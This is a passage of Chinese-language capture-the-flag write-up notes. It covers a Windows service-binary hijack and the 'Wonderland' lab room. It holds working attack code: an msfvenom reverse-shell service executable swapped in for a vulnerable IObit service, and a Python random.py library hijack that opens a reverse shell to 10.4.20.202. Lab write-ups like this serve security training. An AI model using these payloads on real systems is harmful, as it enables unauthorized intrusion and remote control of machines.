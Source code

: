 ![image-20230422220248580](https://gitee.com/leiye87/typora_picture/raw/master/20230422220251.png)

所以我们可以利用这个服务，上传恶意文件后重新启动服务

```
cd 'C:\\Program\ Files\ (x86)\\IObit\\'

//生成反弹shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.20.202 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
//上传
upload ~/Advanced.exe
// local listen
use multi/handler 
set lhost 10.4.20.202
set LPORT 4443
run
//restart server
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
成功
```

![image-20230422220856614](https://gitee.com/leiye87/typora_picture/raw/master/20230422220857.png)

### Wonderland

#### user

nmap 22 80

递归扫描目录,真逆天这

```
http://<ip>/a/b/b/i/t
```

源码中存在alice用户的ssh密码

需要横向到rabbit用户，sudo -l

![image-20230421225523107](https://gitee.com/leiye87/typora_picture/raw/master/20230421225525.png)

由于这个文件导入了random,而python会优先使用当前目录下的文件,新建一个 random.py

```py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.4.20.202",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```
